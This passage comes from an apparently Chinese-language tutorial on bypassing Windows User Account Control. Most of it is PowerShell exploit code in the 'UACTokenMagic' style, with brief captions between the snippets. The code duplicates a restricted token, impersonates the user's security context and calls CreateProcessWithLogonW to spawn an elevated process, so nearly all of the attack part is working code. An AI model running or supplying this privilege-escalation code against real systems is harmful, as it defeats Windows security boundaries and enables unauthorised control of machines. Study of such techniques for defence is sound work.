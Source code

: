 ```powershell
		Break
	}
	
	# Duplicate restricted token
	# TOKEN_IMPERSONATE | TOKEN_QUERY = 0xc
	$hNewToken = [IntPtr]::Zero
	$SECURITY_ATTRIBUTES = New-Object SECURITY_ATTRIBUTES
	if ([UACTokenMagic]::DuplicateTokenEx($LUAToken,0xc,[ref]$SECURITY_ATTRIBUTES,2,2,[ref]$hNewToken)) {
		echo "[*] Duplicated restricted token"
	} else {
		echo "[!] Failed to duplicate restricted token!`n"
		Break
	}
	
```

设置受限令牌SID，创建受限令牌

```powershell
	if([UACTokenMagic]::ImpersonateLoggedOnUser($hNewToken)) {
		echo "[*] Successfully impersonated security context"
	} else {
		echo "[!] Failed impersonate context!`n"
		Break
	}
	
	# Prepare CreateProcessWithLogon
	$StartupInfo = New-Object STARTUPINFO
	$StartupInfo.dwFlags = 0x00000001
	$StartupInfo.wShowWindow = 0x0001
	$StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo)
	$ProcessInfo = New-Object PROCESS_INFORMATION
	
	# Spawn elevated process
	# LOGON_NETCREDENTIALS_ONLY = 0x2
	$CurrentDirectory = $Env:SystemRoot
	if ([UACTokenMagic]::CreateProcessWithLogonW("aaa", "bbb", "ccc", 0x00000002, $BinPath, $Args, 0x04000000, $null, $CurrentDirectory,[ref]$StartupInfo, [ref]$ProcessInfo)) {
		echo "[*] Magic..`n"
	} else {
		echo "[!] Failed to create process!`n"
		Break
```

检查令牌安全上下文，利用受限令牌创建进程。

![](/Users/cate4cafe/工作/文章/Bypass UAC/media/wusa.jpg)

### 


